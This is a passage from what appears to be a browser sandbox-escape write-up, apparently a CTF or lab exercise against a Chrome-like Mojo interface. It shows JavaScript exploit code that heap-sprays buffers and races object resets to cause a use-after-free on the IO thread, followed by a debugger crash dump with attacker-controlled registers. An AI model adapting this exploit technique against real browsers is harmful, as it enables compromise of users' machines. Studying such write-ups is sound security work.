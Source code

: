 ```js
  // sizeof(class SandboxImpl) + 0x800
  let arg = new Uint8Array(0x1020);
  arg.fill(0x41);

  // Enqueue a lot of tasks on the I/O thread
  for (let i = 0; i < clients.length; i++) {
    clients[i].pourSand(arg);
  }

  for (let i = 0; i < 100; i++) {
    iface.pourSand(arg);
    iface.ptr.reset();
    iface = newClient();
  }

  for (let i = 0; i < spray.length; i++) {
    spray[i].pourSand(arg);
  }

  print('done');
}

pwn();
```

If we run this we get a very promising-looking crash:

```
Thread 8 "Chrome_IOThread" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff1504640 (LWP 12533)]
reset () at ../../buildtools/third_party/libc++/trunk/include/__memory/unique_ptr.h:281
281	      __ptr_.second()(__tmp);
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
*RAX  0x2a8000ef7620 ◂— 0x0
*RBX  0x2a8000ef6e00 ◂— 0x4141414141414141 ('AAAAAAAA')
 RCX  0x41
*RDX  0x2a8000ef7600 ◂— 0x4141414141414141 ('AAAAAAAA')
*RDI  0x2a8001181aa0 —▸ 0x2a8000ef6e00 ◂— 0x4141414141414141 ('AAAAAAAA')
*RSI  0x800
*R8   0x2a8000ef6e00 ◂— 0x4141414141414141 ('AAAAAAAA')
*R9   0x7ffff1502ec4 ◂— 0x6e4ac20038323134 /* '4128' */
 R10  0x0
 R11  0x293
*R12  0x2a8000285000 ◂— 0x4141414141414141 ('AAAAAAAA')
*R13  0x2a8000286020 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
*R14  0x2a8000ef7620 ◂— 0x0
*R15  0x4141414141414141 ('AAAAAAAA')
 RBP  0x7ffff1503040 —▸ 0x7ffff15030d0 —▸ 0x7ffff1503350 —▸ 0x7ffff1503400 —▸ 0x7ffff1503420 ◂— ...
 RSP  0x7ffff1502ff0 —▸ 0x7ffff1503010 —▸ 0x2a80003de000 ◂— 0x6400000000
*RIP  0x55555b7b2132 ◂— mov rdi, qword ptr [r15]
────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x55555b7b2132    mov    rdi, qword ptr [r15]
   0x55555b7b2135    test   rdi, rdi
   0x55555b7b2138    je     0x55555b7b2159                <0x55555b7b2159>
    ↓
   0x55555b7b2159    mov    rdi, r15
   0x55555b7b215c    call   free                <free>

   0x55555b7b2161    mov    rax, qword ptr [rbx]
   0x55555b7b2164    lea    rsi, [rbp - 0x40]
```